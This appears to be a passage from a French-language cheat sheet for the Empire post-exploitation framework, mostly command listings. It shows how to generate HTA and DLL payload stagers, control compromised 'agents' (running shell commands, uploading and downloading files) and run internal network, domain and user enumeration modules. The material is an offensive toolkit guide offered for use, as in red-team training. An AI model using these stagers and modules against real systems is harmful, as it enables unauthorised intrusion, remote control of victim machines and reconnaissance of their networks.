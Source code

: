 ### HTA Launcher
```python
usestager windows/hta
set Listener http
set OutFile payload.hta
generate
```

### DLL Launcher
```python
usestager windows/dll
set Listener https
set Arch x64
generate
```

## 🔧 Gestion des Agents

### Interaction avec agents
```python
# Lister agents actifs
agents

# Interagir avec agent spécifique
interact [AGENT_NAME]

# Informations agent
info

# Shell système
shell whoami
shell ipconfig /all
```

### Commandes agent de base
```python
# Dans session agent
sysinfo          # Infos système
ps               # Liste processus
downloads        # Fichiers téléchargés
upload file.exe  # Upload fichier
download file.txt # Download fichier
```

## 🎭 Modules Post-Exploitation

### Reconnaissance interne
```python
# Énumération réseau local
usemodule situational_awareness/network/arpscan
execute

# Énumération domaine
usemodule situational_awareness/network/get_domain_controller
execute

# Énumération utilisateurs
usemodule situational_awareness/network/powerview/get_user
execute
```
